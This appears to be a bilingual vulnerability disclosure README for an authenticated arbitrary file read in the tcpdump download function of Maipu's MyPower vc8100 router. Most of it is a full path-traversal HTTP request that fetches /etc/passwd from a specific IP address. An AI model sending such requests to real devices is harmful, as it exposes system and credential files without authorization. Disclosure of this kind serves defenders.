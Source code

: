 MyPower vc8100 ( 版本: V100R001C00B030)

The product of Maipu Communication Technology Co., Ltd.: MyPower vc8100 (version: V100R001C00B030), there is an arbitrary file reading vulnerability in the background, so you need to log in to the system before you exploit it, and use it at the function of grabbing packet files.

迈普通信技术股份有限公司的产品：MyPower vc8100 ( 版本: V100R001C00B030) 后台存在任意文件读取漏洞，利用前需要登陆系统，在抓取数据包文件功能处进行利用.

![](./1.png)

![image-20240618151340033](./3.png)

Program path: / app/tcpdump/tcpdump.php

```
GET /app/tcpdump/tcpdump.php?menu_uuid=02793c32-813b-4417-8201-5d5455c6c23a&a=download&file_name=../../../../../../../../../../etc/passwd HTTP/1.1
Host: 28.82.7.20
Cookie: PHPSESSID=dd9i76lp6hl9oi0ri833mv3uu2
Sec-Ch-Ua: "Chromium";v="107", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://28.82.7.20/app/tcpdump/tcpdump.php?menu_uuid=02793c32-813b-4417-8201-5d5455c6c23a
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![2](./2.png)
